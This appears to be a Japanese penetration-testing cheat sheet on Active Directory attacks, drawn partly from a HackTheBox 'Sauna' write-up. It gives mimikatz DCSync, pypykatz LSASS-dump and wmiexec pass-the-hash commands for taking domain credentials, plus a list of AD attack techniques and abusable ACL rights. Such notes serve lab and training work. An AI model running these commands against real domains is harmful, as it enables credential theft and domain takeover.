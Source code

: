 侵害したユーザーにmimikatzを使う場合
$ .\mimikatz.exe 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator' exit

```

ここで取得したハッシュを使用して接続

```
wmiexec.py -hashes '[アカウント?ハッシュ]:[NTLMハッシュ]' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

https://0xdf.gitlab.io/2020/07/18/htb-sauna.html

### Mimikatzでlsassをメモリダンプしてクレデンシャル情報を取得する  
pypykatzを使用してメモリダンプする
```
pip3 install pypykatz

pypykatz lsa minidump lsass.DMP(ダンプするファイル)
```


## 主なActive Directoryへの攻撃手法
  
Abusing ACLs/ACEs  
Kerberoasting  
AS-REP Roasting  
Abuse DnsAdmins  
Password in Object Description  
User Objects With Default password (Changeme123!)  
Password Spraying  
DCSync  
Silver Ticket  
Golden Ticket  
Pass-the-Hash  
Pass-the-Ticket  
SMB Signing Disabled  

### ACL/ACE の悪用
  
https://github.com/blackc03r/OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces.md
  
このラボでは、Active Directory の任意アクセス制御リスト (DACL) と、DACL を構成するアクセス制御エントリ (ACE) の弱い権限を悪用します。  
ユーザーやグループなどの Active Directory オブジェクトはセキュリティ保護可能なオブジェクトであり、DACL/ACE はそれらのオブジェクトを読み取り/変更できるユーザーを定義します (アカウント名の変更、パスワードのリセットなど)。  

#### Active Directory オブジェクトの権限とタイプの一部
  
```
GenericAll - オブジェクトに対する完全な権限（ユーザーをグループに追加したり、ユーザーのパスワードをリセットする）
GenericWrite - オブジェクトの属性を更新します (ログオン スクリプトなど)
WriteOwner - オブジェクトの所有者を攻撃者が制御するユーザーに変更し、オブジェクトを乗っ取る
WriteDACL - オブジェクトの ACE を変更し、攻撃者にオブジェクトに対する完全な制御権を与える
AllExtendedRights - ユーザーをグループに追加したり、パスワードをリセットしたりする機能
ForceChangePassword - ユーザーのパスワードを変更する機能
Self (Self-Membership) - 自分自身をグループに追加する機能
AddMembers:ユーザー (自分のアカウントを含む)、グループ、またはコンピューターを対象グループに追加できる
